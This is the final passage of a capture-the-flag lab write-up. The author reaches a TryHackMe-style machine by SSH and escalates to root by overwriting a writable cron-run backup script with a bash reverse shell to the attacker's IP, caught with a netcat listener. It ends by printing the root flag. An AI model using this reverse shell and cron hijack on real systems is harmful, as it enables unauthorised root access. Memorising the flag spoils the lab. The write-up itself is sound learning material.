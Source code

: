 I then logged into Dale's SSH with the RSA_key:

```
ssh -i dale_rsa dale@{MACHINE_IP}
```

And now I'm in! Let's try to excalate privileges.

Looking into the **/opt/admin_stuff** directory, there is a file: **script.sh**:

```shell
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```

It runs as root every minute, and it runs 2 scripts inside it. I checked to see if I had write permissions on either of the scripts. It turns out that I can write to the **main_backup.sh** file.

I opened **main_backup.sh** with nano and changed it to a reverse shell script:

```shell
#!/bin/bash
bash -i >& /dev/tcp/{THM_VPN_IP}/1234 0>&1
```

I then set up a Netcat listener on another terminal:

```
sudo nc -nvlp 1234
```

and after a minute, I got a root shell!

I then found the **root.txt** file in the **/root** directory:

```
THM{fhqbznavfonq}
```

That's our root flag! I hope you found this helpful!
